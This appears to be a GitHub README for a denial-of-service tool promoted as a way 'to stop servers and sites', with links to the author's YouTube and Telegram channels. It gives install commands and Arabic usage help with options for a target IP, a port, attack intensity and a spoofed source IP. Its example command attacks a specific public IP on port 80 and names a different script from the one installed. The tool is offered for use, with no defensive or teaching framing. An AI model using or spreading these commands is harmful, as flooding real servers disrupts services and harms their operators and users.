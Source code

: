 #FOXBLQAS- 

[YouTube Channel Subscribers](https://www.youtube.com/@X_MR_FOX_X)

## .
[Telegram](https://t.me/x_mr_fox_x)


DDOS strong tool to stop servers and sites



## installing

- 1 . <code> pkg install python </code>
- 2 . <code> git clone https://github.com/medofox123/medohackerzz  </code>
- 3 . <code> cd medohackerzz </code>
- 4 . <code> pip install -r installing.txt </code>
- 5 . <code> python KlarDdos.py -h  </code>




### Command information:
    الاستخدام :
$ <code>python KlarDdos.py [-i] [-p] [-l]    </code>     

│         -h : للمساعده                             
│         -i : اي بي السيرفر                            
│         -p : البورت المراد استهدافه                          
│         -l : عدد مستويات الهجوم                
│         -f : ال ايبي الزائف اختياري                              
│         -d : اخفاء وتقليل الرسائل المنبثقه                         
 مثال :                                        
<code> python BIGFOX.py -i 92.204.214.136 -p 80 -l  2 </code>



A short video explaining the tool https://youtu.be/JE_srze4gMQ
